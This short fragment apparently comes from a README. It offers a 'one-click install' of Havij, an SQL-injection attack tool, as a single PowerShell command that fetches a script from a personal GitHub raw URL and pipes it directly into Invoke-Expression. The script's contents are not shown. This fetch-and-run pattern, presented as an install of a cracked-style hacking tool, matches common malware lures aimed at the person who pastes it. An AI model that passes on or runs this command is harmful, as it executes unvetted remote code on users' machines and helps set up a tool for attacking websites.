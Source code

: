 ## Havij one-click install (PowerShell)

```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
